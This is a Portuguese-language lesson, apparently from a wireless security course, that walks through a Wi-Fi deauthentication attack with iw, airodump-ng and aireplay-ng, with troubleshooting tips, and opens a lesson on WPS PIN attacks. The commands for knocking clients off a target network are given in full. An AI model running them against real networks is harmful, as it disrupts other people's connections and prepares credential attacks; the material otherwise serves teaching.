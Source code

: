 ### Informações importantes
É importante estar familiarizadx com a maneira pela qual as interfaces de rede, bem como os modos de operação de placas de rede sem fio (managed e monitor).


### O ataque
Primeiramente devemos iniciar uma interface em modo monitor.
```
# iw list
```

O comando
```
# iw dev wlan0 interface add mon0 type monitor
```
irá adicionar uma interface virtual funcionando em modo monitor. Podemos comprovar isso com
```
# ifconfig 
```
que agora deve listar a nova interface.

Agora utilizaremos alguns programas da suite -ng.
```
# airodump-ng mon0
```
faz uma varredura dos canais suportados atualmente pela placa de rede (de acordo com a configuração de país ???), e mostra um sumário de cada BSS e suas respectivas estações conectadas. É possível utilizar argumentos de filtro caso necessário.

Com nosso alvo escolhido, isto é, seu BSS ou BSS + MAC encontrados, podemos começar o ataque. O seguinte comando irá enviar pacotes de desautenticação como se fosse o BSSID especificado. É possível passar o MAC da estação de destino também, com a flag -c
```
# aireplay-ng -0 0 -a xx:xx:xx:xx:xx:xx -c xx:xx:xx:xx:xx:xx
```


### Troubleshooting
- "Meu aireplay não vai"
Verifique se o canal da interface é o mesmo do BSS
- "Device is busy ou algo do tipo"
Se você adicionou uma interface virtualmente, ela funciona de modo mutex com a interface real. Desative a wlan0 da vida com
```
# ifconfig wlan0 down
```

### Materiais adicionais
- [Pacotes 802.11](https://www.liveaction.com/docs/glossary/wireless-lan-802-11-wlan/packet-types/)

# Aula 7: WPS, PIN codes, Reaver e Pixie Dust

Um mecanismo ainda razoavelmente comum em redes wi-fi é a presença de **Wi-fi Protected Setup (WPS)**. No entanto, essa técnica permite fazer ataques muito simples para se quebrar a senha de uma rede Wi-fi.
